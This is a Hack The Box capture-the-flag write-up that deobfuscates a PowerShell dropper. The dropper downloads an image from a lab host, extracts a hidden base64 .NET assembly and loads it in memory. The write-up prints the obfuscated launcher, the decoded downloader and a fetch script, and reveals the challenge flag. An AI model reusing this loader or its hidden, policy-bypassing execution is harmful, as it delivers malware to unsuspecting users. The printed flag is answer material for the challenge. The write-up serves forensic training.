Ymllcem9tYmllcPQem9tYmllcgem9tYmllcFsem9tYmllcUwB5em9tYmllcHMem9tYmllcdem9tYmllcBlem9tYmllcG0em9tYmllcLgBDem9tYmllcG8em9tYmllcbgB2em9tYmllcGUem9tYmllccgB0em9tYmllcF0em9tYmllcOgem9tYmllc6em9tYmllcEYem9tYmllccgBvem9tYmllcG0em9tYmllcQgBhem9tYmllcHMem9tYmllcZQem9tYmllc2em9tYmllcDQem9tYmllcUwB0em9tYmllcHIem9tYmllcaQBuem9tYmllcGcem9tYmllcKem9tYmllcem9tYmllckem9tYmllcGIem9tYmllcYQBzem9tYmllcGUem9tYmllcNgem9tYmllc0em9tYmllcEMem9tYmllcbwBtem9tYmllcG0em9tYmllcYQBuem9tYmllcGQem9tYmllcKQem9tYmllc7em9tYmllcCQem9tYmllcbem9tYmllcBvem9tYmllcGEem9tYmllcZem9tYmllcBlem9tYmllcGQem9tYmllcQQBzem9tYmllcHMem9tYmllcZQBtem9tYmllcGIem9tYmllcbem9tYmllcB5em9tYmllcCem9tYmllcem9tYmllcPQem9tYmllcgem9tYmllcFsem9tYmllcUwB5em9tYmllcHMem9tYmllcdem9tYmllcBlem9tYmllcG0em9tYmllcLgBSem9tYmllcGUem9tYmllcZgBsem9tYmllcGUem9tYmllcYwB0em9tYmllcGkem9tYmllcbwBuem9tYmllcC4em9tYmllcQQBzem9tYmllcHMem9tYmllcZQBtem9tYmllcGIem9tYmllcbem9tYmllcB5em9tYmllcF0em9tYmllcOgem9tYmllc6em9tYmllcEwem9tYmllcbwBhem9tYmllcGQem9tYmllcKem9tYmllcem9tYmllckem9tYmllcGMem9tYmllcbwBtem9tYmllcG0em9tYmllcYQBuem9tYmllcGQem9tYmllcQgB5em9tYmllcHQem9tYmllcZQBzem9tYmllcCkem9tYmllcOwem9tYmllckem9tYmllcHQem9tYmllceQBwem9tYmllcGUem9tYmllcIem9tYmllcem9tYmllc9em9tYmllcCem9tYmllcem9tYmllcJem9tYmllcBsem9tYmllcG8em9tYmllcYQBkem9tYmllcGUem9tYmllcZem9tYmllcBBem9tYmllcHMem9tYmllccwBlem9tYmllcG0em9tYmllcYgBsem9tYmllcHkem9tYmllcLgBHem9tYmllcGUem9tYmllcdem9tYmllcBUem9tYmllcHkem9tYmllccem9tYmllcBlem9tYmllcCgem9tYmllcJwBGem9tYmllcGkem9tYmllcYgBlem9tYmllcHIem9tYmllcLgBIem9tYmllcG8em9tYmllcbQBlem9tYmllcCcem9tYmllcKQem9tYmllc7em9tYmllcCQem9tYmllcbQBlem9tYmllcHQem9tYmllcaem9tYmllcBvem9tYmllcGQem9tYmllcIem9tYmllcem9tYmllc9em9tYmllcCem9tYmllcem9tYmllcJem9tYmllcB0em9tYmllcHkem9tYmllccem9tYmllcBlem9tYmllcC4em9tYmllcRwBlem9tYmllcHQem9tYmllcTQBlem9tYmllcHQem9tYmllcaem9tYmllcBvem9tYmllcGQem9tYmllcKem9tYmllcem9tYmllcnem9tYmllcFYem9tYmllcQQBJem9tYmllcCcem9tYmllcKQem9tYmllcuem9tYmllcEkem9tYmllcbgB2em9tYmllcG8em9tYmllcawBlem9tYmllcCgem9tYmllcJem9tYmllcBuem9tYmllcHUem9tYmllcbem9tYmllcBsem9tYmllcCwem9tYmllcIem9tYmllcBbem9tYmllcG8em9tYmllcYgBqem9tYmllcGUem9tYmllcYwB0em9tYmllcFsem9tYmllcXQBdem9tYmllcCem9tYmllcem9tYmllcKem9tYmllcem9tYmllcnem9tYmllcFoem9tYmllcRem9tYmllcBWem9tYmllcGsem9tYmllcWgBtem9tYmllcFkem9tYmllceQBNem9tYmllcFcem9tYmllcSQB4em9tYmllcE4em9tYmllcMgBWem9tYmllcGwem9tYmllcTem9tYmllcBUem9tYmllcEYem9tYmllcbQBOem9tYmllcEQem9tYmllcZwB0em9tYmllcE4em9tYmllcVwBNem9tYmllcDMem9tYmllcTgBDem9tYmllcDEem9tYmllcagBPem9tYmllcFQem9tYmllcTQem9tYmllcwem9tYmllcEwem9tYmllcVwBRem9tYmllcDMem9tYmllcTQem9tYmllcyem9tYmllcE0em9tYmllceQBZem9tYmllcFQem9tYmllcWQB6em9tYmllcFem9tYmllcem9tYmllcVwem9tYmllc1em9tYmllcGwem9tYmllcYQem9tYmllcyem9tYmllcDkem9tYmllcMem9tYmllcBKem9tYmllcG0em9tYmllcRgBwem9tYmllcFoem9tYmllcRwBWem9tYmllcHQem9tYmllcUem9tYmllcBYem9tYmllcFIem9tYmllccwBZem9tYmllcFQem9tYmllcOQem9tYmllcwem9tYmllcGUem9tYmllcSem9tYmllcBRem9tYmllcHUem9tYmllcYwBtem9tYmllcFYem9tYmllcbQBjem9tYmllcDIem9tYmllcNQBoem9tYmllcGMem9tYmllcbgBRem9tYmllcHYem9tYmllcYgB5em9tYmllcDkem9tYmllcdem9tYmllcBiem9tYmllcDIem9tYmllcTQB1em9tYmllcGQem9tYmllcRwem9tYmllc5em9tYmllcHcem9tYmllcYwem9tYmllczem9tYmllcEIem9tYmllcdwBZem9tYmllcFMem9tYmllcNQBtem9tYmllcE8em9tYmllcVem9tYmllcBOem9tYmllcGoem9tYmllcTgBpem9tYmllcDEem9tYmllcbgBiem9tYmllcG0em9tYmllcbem9tYmllcByem9tYmllcFkem9tYmllcMgBGem9tYmllcG8em9tYmllcTem9tYmllcem9tYmllcyem9tYmllcEkem9tYmllcdgBNem9tYmllcEgem9tYmllcWQB2em9tYmllcGIem9tYmllcVwem9tYmllc5em9tYmllcGoem9tYmllcTem9tYmllcBuem9tYmllcE4em9tYmllccem9tYmllcBjem9tYmllcEcem9tYmllcRgBsem9tYmllcGIem9tYmllcRwBkem9tYmllcHYem9tYmllcYgem9tYmllcyem9tYmllcGMem9tYmllcdQBaem9tYmllcFcem9tYmllcZem9tYmllcBoem9tYmllcGMem9tYmllcbQem9tYmllc5em9tYmllcDem9tYmllcem9tYmllcYwem9tYmllcyem9tYmllcFYem9tYmllcegBZem9tYmllcFcem9tYmllcSgBsem9tYmllcGMem9tYmllcbQBsem9tYmllcG0em9tYmllcTem9tYmllcB5em9tYmllcDgem9tYmllcNgBjem9tYmllcDMem9tYmllcQgem9tYmllcwem9tYmllcGQem9tYmllcRwBnem9tYmllcD0em9tYmllcJwem9tYmllcgem9tYmllcCwem9tYmllcIem9tYmllcem9tYmllcnem9tYmllcGQem9tYmllcZgBkem9tYmllcGYem9tYmllcZem9tYmllcem9tYmllcnem9tYmllcCem9tYmllcem9tYmllcLem9tYmllcem9tYmllcgem9tYmllcCcem9tYmllcZem9tYmllcBmem9tYmllcGQem9tYmllcZgem9tYmllcnem9tYmllcCem9tYmllcem9tYmllcLem9tYmllcem9tYmllcgem9tYmllcCcem9tYmllcZem9tYmllcBmem9tYmllcGQem9tYmllcZgem9tYmllcnem9tYmllcCem9tYmllcem9tYmllcLem9tYmllcem9tYmllcgem9tYmllcCcem9tYmllcZem9tYmllcBhem9tYmllcGQem9tYmllccwBhem9tYmllcCcem9tYmllcIem9tYmllcem9tYmllcsem9tYmllcCem9tYmllcem9tYmllcJwBkem9tYmllcGUem9tYmllcJwem9tYmllcgem9tYmllcCwem9tYmllcIem9tYmllcem9tYmllcnem9tYmllcGMem9tYmllcdQem9tYmllcnem9tYmllcCkem9tYmllcKQem9tYmllc='';$OWjuxd = [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD'
```
It declare weird a string "$Codigo" then create command as a string "$OWjuxd" <br />
"$OWjuxd" command will encode "$codigo" string and replace 'em9tYmllc' with 'A'<br />
Then ```powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD```<br />
```powershell.exe```: This is the executable for PowerShell.<br />
```windowstyle hidden```: This parameter is used to start PowerShell with a hidden window, meaning it won't be visible to the user.<br />
```executionpolicy bypass```: This parameter allows the execution of scripts on the system without any restrictions. It bypasses the PowerShell script execution policy.<br />
```NoProfile```: This parameter prevents loading the user profile.<br />
```command $OWjuxD```: This parameter specifies the PowerShell command to be executed.<br /><br />

Now, What is "$Codigo"
I will use [cyberchef](https://gchq.github.io/CyberChef/) to replace 'em9tYmllc' with 'A' then decode the string



Now I can see ..
```
$imageUrl='http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';
$webClient=New-ObjectSystem.Net.WebClient;
$imageBytes=$webClient.DownloadData($imageUrl);
$imageText=[System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag='<<BASE64_START>>';
$endFlag='<<BASE64_END>>';
$startIndex=$imageText.IndexOf($startFlag);
$endIndex=$imageText.IndexOf($endFlag);

$startIndex-ge0-and$endIndex-gt$startIndex;
$startIndex+=$startFlag.Length;

$base64Length=$endIndex-$startIndex;

$base64Command=$imageText.Substring($startIndex,$base64Length);

$commandBytes=[System.Convert]::FromBase64String($base64Command);

$loadedAssembly=[System.Reflection.Assembly]::Load($commandBytes);
$type=$loadedAssembly.GetType('Fiber.Home');
$method=$type.GetMethod('VAI').Invoke($null,[object[]]('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=','dfdfd','dfdf','dfdf','dadsa','de','cu'))
```
- Specify the URL of the image
```$imageUrl='http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';```
- Create a new WebClient object to download data from the specified URL
```$webClient=New-ObjectSystem.Net.WebClient;```
- Download the image data as bytes
```$imageBytes=$webClient.DownloadData($imageUrl);```
- Convert the downloaded image data to text using UTF-8 encoding
```$imageText=[System.Text.Encoding]::UTF8.GetString($imageBytes);```
- Define start and end flags
```$startFlag='<<BASE64_START>>';```
```$endFlag='<<BASE64_END>>';```
- Find the index of the start flag in the image text
```$startIndex=$imageText.IndexOf($startFlag);```
- Find the index of the end flag in the image text
```$endIndex=$imageText.IndexOf($endFlag);```
- Check if the start index is greater than or equal to 0 and if the end index is greater than the start index
```$startIndex-ge0-and$endIndex-gt$startIndex;```
- Increment the startIndex by the length of startFlag
```$startIndex+=$startFlag.Length;```
- Calculate the length of the Base64 command
```$base64Length=$endIndex-$startIndex;```
- Extract the Base64 command from the image text
```$base64Command=$imageText.Substring($startIndex,$base64Length);```
- Convert the Base64 command to bytes
```$commandBytes=[System.Convert]::FromBase64String($base64Command);```
- Load the bytes as an assembly
```$loadedAssembly=[System.Reflection.Assembly]::Load($commandBytes);```
- Get the type named 'Fiber.Home' from the loaded assembly
```$type=$loadedAssembly.GetType('Fiber.Home');```
- Get the method named 'VAI' from the type and invoke it with parameters. The result of the method invocation is stored in $methodResult
```
$method=$type.GetMethod('VAI').Invoke($null,[object[]]('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=','dfdfd','dfdf','dfdf','dadsa','de','cu'))
```

It is series of actions related to downloading an image from a URL, extracting a portion of the image text, treating that portion as Base64-encoded data representing an assembly, loading that assembly, and invoking a method named 'VAI' on a type named 'Fiber.Home' within that assembly.<br /><br />


Now I will request the image URL



result is a very long ending by <<BASE64_END>>. 



So, let's save it on another file. During saving, I could decode the encoded string determined by the start and end flags.<br />

I will wirte a python code to do that
```
import requests
import subprocess

# Specify the target IP address and port
target_ip = "x.x.x.x"
target_port = xxxxx

# Define the URL to fetch
url = "http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg"

# Construct the HTTP request
request_data = f"GET {url} HTTP/1.1\r\nHost: {target_ip}:{target_port}\r\n\r\n"

# Connect to the server using netcat
with open("base64.txt", "wb") as output_file:
    try:
        # Use the subprocess module to execute the netcat command
        process = subprocess.Popen(["nc", target_ip, str(target_port)], stdin=subprocess.PIPE, stdout=subprocess.PIPE)
        
        # Send the HTTP request to netcat
        output, _ = process.communicate(input=request_data.encode("utf-8"))
        
        # Check for the presence of b"<<BASE64_START>>" and b"<<BASE64_END>>" in the output
        base64_start_index = output.find(b"<<BASE64_START>>")
        base64_end_index = output.find(b"<<BASE64_END>>")
        
        if base64_start_index != -1 and base64_end_index != -1:
            # Write the content between b"<<BASE64_START>>" and b"<<BASE64_END>>" to t.txt
            output_file.write(output[base64_start_index + len(b"<<BASE64_START>>"):base64_end_index])
            print("Found <<BASE64_START>> and <<BASE64_END>>. Check base64.txt for the extracted content.")
            
            # Write the remaining content after b"<<BASE64_END>>" to tt.txt
            with open("remaining_content.txt", "wb") as remaining_output_file:
                remaining_output_file.write(output[base64_end_index + len(b"<<BASE64_END>>"):])
                print("Remaining content saved to remaining_content.txt.")
        else:
            # Write the entire output to base64.txt
            output_file.write(output)
            print("Either <<BASE64_START>> or <<BASE64_END>> not found. Check base64.txt for the entire response.")
        
    except Exception as e:
        print(f"An error occurred: {e}")
```

Run the code, and I will have two files.<br />
One of them is base64.txt and remaining_content.txt which is basically an image.



Now I have the encoded data in the base64.txt file.<br />
I will decode it to investigate its content usnig cyberchef.



I starts with MZ, header of a DOS executable. In the context of DOS and Windows executable files, "MZ" refers to the initials of Mark Zbikowski, one of the early developers at Microsoft. The "MZ" header is followed by the DOS executable program, and it indicates the beginning of a DOS executable file. The MZ header is part of the file structure that helps the operating system identify and execute the program.
<br /><br />

I will save the output into a file to investigate its content.
<br /><br />
At the end of the file I can see the flag ...




```HTB{0n3_St3p_cl0s3r_t0_th3_cur3}```
